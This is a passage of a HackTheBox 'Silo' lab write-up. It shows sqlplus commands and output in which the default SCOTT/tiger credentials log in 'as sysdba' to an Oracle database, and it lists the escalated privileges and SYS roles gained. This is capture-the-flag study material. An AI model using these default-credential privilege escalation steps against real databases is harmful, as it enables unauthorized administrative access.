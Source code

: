 ```

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SCOTT                          CONNECT                        NO  YES NO
SCOTT                          RESOURCE                       NO  YES NO

SQL> 

```

But now, if you use `as sysdba` (typically as `sudo`) to login using the `sqlplus64` we get few more permissions.

```
┌──(darshan㉿kali)-[~/Desktop/HackTheBox/Windows-boxes/Silo]
└─$ sqlplus SCOTT/tiger@10.10.10.82:1521/XE as sysdba

SQL*Plus: Release 21.0.0.0.0 - Production on Thu Feb 9 03:21:21 2023
Version 21.9.0.0.0

Copyright (c) 1982, 2022, Oracle.  All rights reserved.


Connected to:
Oracle Database 11g Express Edition Release 11.2.0.2.0 - 64bit Production

SQL> select * from session_privs;

PRIVILEGE
----------------------------------------
ALTER SYSTEM
AUDIT SYSTEM
CREATE SESSION
ALTER SESSION
...[snip]
ADMINISTER SQL MANAGEMENT OBJECT
ALTER PUBLIC DATABASE LINK
ALTER DATABASE LINK
FLASHBACK ARCHIVE ADMINISTER

208 rows selected.


SQL> select * from user_role_privs;

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            ADM_PARALLEL_EXECUTE_TASK      YES YES NO
SYS                            APEX_ADMINISTRATOR_ROLE        YES YES NO
SYS                            AQ_ADMINISTRATOR_ROLE          YES YES NO
SYS                            AQ_USER_ROLE                   YES YES NO
SYS                            AUTHENTICATEDUSER              YES YES NO
...[snip]...
SYS                            XDB_WEBSERVICES_OVER_HTTP      YES YES NO
SYS                            XDB_WEBSERVICES_WITH_PUBLIC    YES YES NO

32 rows selected.

```
